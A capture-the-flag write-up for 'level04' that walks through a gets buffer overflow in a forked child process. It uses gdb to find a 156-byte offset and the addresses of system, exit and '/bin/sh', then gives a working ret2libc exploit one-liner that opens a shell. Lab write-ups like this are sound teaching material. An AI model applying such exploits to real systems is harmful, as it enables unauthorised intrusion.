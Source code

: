 # level04

## Step 1: Understand the program
1. At the beginning, the program `forks`
2. The parent process `waits` until the child process `exits` or until a signal is received
3. The child process reads from `stdin` with a __vulnerable__ `gets` call
    - The program segfault when the input is too long by overwriting `eip` or `eax` (I didn't try to know)

## Step: Find the offset of the buffer overflow

We need to entrer in the child process with gdb because the vulnerability is in the child process.

`(gdb) set follow-fork-mode child`

Otherwise, we will stay on the parent process

```console
(gdb) set follow-fork-mode child
(gdb) r
Starting program: /home/users/level04/level04 
[New process 1948]
[Switching to process 1948]
Give me some shellcode, k
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

Program received signal SIGSEGV, Segmentation fault.
0x41326641 in ?? ()
```

> Offset = 156

## Step 3

Once in the child process, we can find the address of `system`, `exit` and `"/bin/sh"` to build a __Ret2libc__

- Address of `system`:
```
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
```
- Address of `exit`:
```
(gdb) p exit
$2 = {<text variable, no debug info>} 0xf7e5eb70 <exit>
```
- Address of `"/bin/sh"`:
```
(gdb) find &system,+9999999,"/bin/sh"
0xf7f897ec
warning: Unable to access target memory at 0xf7fd3b74, halting search.
1 pattern found.
```

## Exploit
```bash
(python -c 'print "A" * (156) + "\xf7\xe6\xae\xd0"[::-1] + "\xf7\xe5\xeb\x70"[::-1] + "\xf7\xf8\x97\xec"[::-1]'; cat) | /home/users/level04/level04
```
